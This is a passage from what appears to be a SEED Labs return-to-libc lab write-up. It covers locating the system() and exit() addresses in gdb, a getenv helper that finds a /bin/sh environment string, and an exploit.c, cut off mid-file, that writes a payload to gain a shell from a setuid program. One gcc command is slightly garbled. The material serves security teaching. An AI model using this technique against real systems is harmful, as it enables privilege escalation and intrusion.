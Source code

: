 So we should set `system`'s entry address at `bof`'s return address (`&buf[24]`), set `system`'s argument address at `&buf[32]`, and set `exit`'s entry address at `&buf[36]`.

Then, find memory address:

```sh
root@ubuntu:/home/seed# gcc -o -fno-stack-protector -z noexecstack -o retlib retlib.c 
root@ubuntu:/home/seed# chmod u+s retlib
root@ubuntu:/home/seed# gdb --quiet retlib
Reading symbols from /home/seed/retlib...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048528
(gdb) r
Starting program: /home/seed/retlib 
Breakpoint 1, 0x08048528 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e5f430 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e52fb0 <exit>
```

We need write a program to get `/bin/sh`'s address:

```c
// getenv.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char const *argv[])
{
    char *ptr;
    if(argc < 3)
    {
        printf("Usage: %s <environment var> <target program name>\n", argv[0]);
        exit(0);
    }
    ptr = getenv(argv[1]);
    ptr += (strlen(argv[0]) - strlen(argv[2])) * 2;
    printf("%s will be at %p\n", argv[1], ptr);
    return 0;
}
```

```text
seed@ubuntu:~$ export MYSHELL=/bin/sh
seed@ubuntu:~$ gcc -o getenv getenv.c 
seed@ubuntu:~$ ./getenv MYSHELL ./retlib
MYSHELL will be at 0xbffffe8a
```

We fill these address into exploit.c.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
    char buf[40];
    FILE *badfile;

    badfile = fopen("./badfile", "w");
    strcpy(buf,"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90");    // nop 24 times
    *(long *) &buf[32] = 0xbffffe8a ;    // "/bin/sh"
    *(long *) &buf[24] = 0xb7e5f430 ;    // system()
    *(long *) &buf[36] = 0xb7e52fb0 ;    // exit()

```